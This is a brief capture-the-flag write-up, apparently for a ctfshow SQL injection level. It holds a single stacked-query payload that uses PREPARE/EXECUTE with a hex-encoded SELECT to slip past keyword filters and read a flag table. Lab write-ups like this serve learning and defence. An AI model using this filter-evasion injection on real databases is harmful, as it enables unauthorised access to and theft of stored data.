 # 知识点
与web226一样使用预编译
# 思路
```plsql
}';prepare h from 0x73656c65637420666c6167617362612066726f6d2063746673685f6f775f666c616761736161;execute h;--+
```
![image.png](./images/20231017_2352063047.png)

